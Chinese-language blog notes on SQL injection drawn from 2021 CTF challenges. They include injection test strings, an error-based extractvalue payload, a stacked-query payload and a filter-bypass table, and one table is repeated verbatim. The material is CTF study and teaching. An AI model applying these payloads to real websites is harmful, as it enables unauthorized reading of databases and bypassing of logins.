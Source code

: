 ```yaml
---
title: sql注入分享
comments: true
hide: index
date: 2021-05-26 13:43:04
urlname: sqlinjection
updated:
password:
tags:
categories:
---
```






<!-- more -->

# SQL注入

小交流会的提纲，记录下，没有逻辑可言

今年本人参加的CTF中记录的sql题目，由于可能有多种解，这里列出本人解法仅供参考

| 比赛-题目名称            | 注入类型   | 详细情况                                               |
| ------------------------ | ---------- | ------------------------------------------------------ |
| MTCTF-sql                | 盲注       | 布尔型，同表查询                                       |
| 国赛CISCN-easy_sql       | 盲注，报错 | sqlmap一把梭，布尔型/延时注入/报错注入，最后无列名注入 |
| 红帽杯-WebsiteManger     | 盲注       | 布尔型(异或)/延时注入                                  |
| 红明谷-happysql          | 盲注       | 布尔型(正则)，无列名注入                               |
| DASCTF三月赛-bestDB      | 联合注入   | load_file()                                            |
| V&NCTF-realezjvav        | 盲注       | 延时注入(笛卡尔积)                                     |
| HGAME-200OK!             | 联合注入   | 基础SQL注入                                            |
| HGAME-Liki-Jail          | 盲注       | 延时注入                                               |
| 春秋杯新春欢乐赛-按F注入 | 联合注入   | Pgsql，延时注入(也许)/信息外带/数据库外联              |

打个广告，各比赛的WP，有需要的师傅可以看看

[春秋杯2021新春欢乐赛一道题——按F注入 对pgsql的研究](https://err0r.top/article/cqb2021/)

[V&N2021公开赛](https://err0r.top/article/VN2021ctf/)

[SQL无列名注入](https://err0r.top/article/mardasctf/)

[红帽杯2021](https://err0r.top/article/redhat2021/)

[2021CISCN-WP](https://err0r.top/article/ciscn2021/)

统计了一下今年的SQL注入题目，可能不全，从上表能看出大部分都是盲注，盲注的重要性可想而知。

---

## 常用函数

1. version()——MySQL版本
2. user()——用户名
3. database()——数据库名
4. @@datadir——数据库路径
5. @@version_compile_os——操作系统版本

最常用的一般是`database()`，有时候注意看`user()`，有些题目给的是root用户，需要用`load_file()`读文件，下面开始注入准备

---

## 测试注入

| 测试字符串        | 变  种              | 预 期 结 果                                                |
| ----------------- | ------------------- | ---------------------------------------------------------- |
| '                 |                     | 触发错误。如果成功，数据库将返回一个错误                   |
| 1' or '1'='1      | 1') or ('1'='1      | 永真条件。如果成功，将返回表中所有的行                     |
| value' or '1'='2  | value') or ('1'='2  | 空条件。如果成功，将返回与原来的值相同的结果               |
| 1' and '1'='2     | 1') and ('1'='2     | 永假条件。如果成功，将不返回表中任何行                     |
| 1' or 'ab'='a'+'b | 1') or ('ab'='a'+'b | SQL Server字符串连接。如果成功，将返回与永真条件相同的信息 |
| 1' or 'ab'='a' 'b | 1') or ('ab'='a' 'b | MySQL字符串连接。如果成功，将返回与永真条件相同的信息      |
| 1' or 'ab'='a'‖'b | 1') or ('ab'='a'‖'b | Oracle字符串连接。如果成功，将返回与永真条件相同的信息     |

---

## 盲注

盲注，就是指执行sql语句后返回值不直接回显到前端页面



---

## 过滤情况

### 过滤select

比较劲爆，如果有回显可以报错注入查出简单信息

```sql
1' and (extractvalue(1,concat(0x7e,database(),0x7e)));#
```

`user()`/`database()`/`version()`

- 但这不行，可以利用堆叠注入绕过过滤

```sql
-1';show tables#
```

然后利用预编译方式查数据

经典题目：[2019强网杯-随便注](https://buuoj.cn/challenges#[%E5%BC%BA%E7%BD%91%E6%9D%AF%202019]%E9%9A%8F%E4%BE%BF%E6%B3%A8)

- 或者`alter`改表名，然后万能密码登陆出结果(如果可回显的话)

- 据说web端过滤也许可以preg_match回溯限制(有的情况)

- 同表的话可以同表查询

  盲注字段名利用`left(column,0)`

  当存在字段时返回True

基本过滤

|      过滤      |      替代方法       |
| :------------: | :-----------------: |
|      and       |          &          |
|       or       |         \|          |
|     [空格]     |    /**/或()或%0a    |
|       #        |         --+         |
|    substr()    | mid()、substring()  |
|    ascii()     | hex()、bin()、ord() |
|    sleep()     |     benchmark()     |
| group_concat() |     concat_ws()     |
|      <、>      |     greatest()      |
|   limit n,m    |  limit m offset n   |

| 测试字符串        | 变  种              | 预 期 结 果                                                |
| ----------------- | ------------------- | ---------------------------------------------------------- |
| '                 |                     | 触发错误。如果成功，数据库将返回一个错误                   |
| 1' or '1'='1      | 1') or ('1'='1      | 永真条件。如果成功，将返回表中所有的行                     |
| value' or '1'='2  | value') or ('1'='2  | 空条件。如果成功，将返回与原来的值相同的结果               |
| 1' and '1'='2     | 1') and ('1'='2     | 永假条件。如果成功，将不返回表中任何行                     |
| 1' or 'ab'='a'+'b | 1') or ('ab'='a'+'b | SQL Server字符串连接。如果成功，将返回与永真条件相同的信息 |
| 1' or 'ab'='a' 'b | 1') or ('ab'='a' 'b | MySQL字符串连接。如果成功，将返回与永真条件相同的信息      |
| 1' or 'ab'='a'‖'b | 1') or ('ab'='a'‖'b | Oracle字符串连接。如果成功，将返回与永真条件相同的信息     |

## 移位溢注

知道表名不需要知道字段名，一般没用，能用的时候都能用其他的注出来。

---

